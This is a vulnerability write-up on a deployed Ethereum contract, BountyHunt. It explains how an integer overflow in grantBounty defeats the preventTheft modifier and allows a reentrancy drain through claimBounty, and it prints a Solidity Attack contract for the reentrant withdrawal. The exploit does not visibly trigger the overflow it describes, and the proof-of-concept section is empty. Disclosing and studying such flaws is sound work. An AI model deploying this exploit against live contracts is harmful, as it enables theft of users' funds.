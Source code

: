 BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner use modifier `preventTheft` to prevent attacks. However, there exist an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------
